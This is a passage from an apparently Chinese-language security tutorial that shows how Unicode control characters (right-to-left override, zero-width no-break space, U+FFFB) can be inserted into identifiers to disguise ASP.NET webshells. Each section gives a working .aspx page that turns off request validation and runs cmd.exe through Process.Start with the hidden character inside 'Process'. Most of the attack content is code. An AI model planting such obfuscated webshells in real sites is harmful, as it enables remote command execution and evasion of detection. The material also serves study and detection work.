 </script>

4.9 由右到左覆盖符
-----------

从右到左覆盖符（RLO） `U+202E、U+0000202E`，它的特性是可以反转其他字符的显示顺序，比如`DotNet安全矩阵`，给每个字符前面加上\\u202E`\u202ED\u202Eo\u202Et\u202EN\u202Ee\u202Et\u202E安\u202E全\u202E矩\u202E阵`就会变成 `阵矩全安teNtoD`

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\u202Ecess.Start("cmd.exe","/c calc");

    }

</script>

4.10 零宽度不间断空格
-------------

零宽度不间断空格（ZWNBSP） `U+FEFF、U+0000FEFF`，一般用于文件开头的字节顺序标记 (BOM)，在 UTF-16 中，BOM 是两个字节，Big-endian 对应的 BOM 是 0xFEFF，Little-endian 对应的 BOM 是 0xFFFE。

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\uFEFFcess.Start("cmd.exe","/c calc");

    }

</script>

4.11 行间注解终止符
------------

行间注解终止符 `U+FFFB、U+0000FFFB`

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\uFFFBcess.Start("cmd.exe","/c calc");

    }

</script>

4.12 行间标记注释符
------------
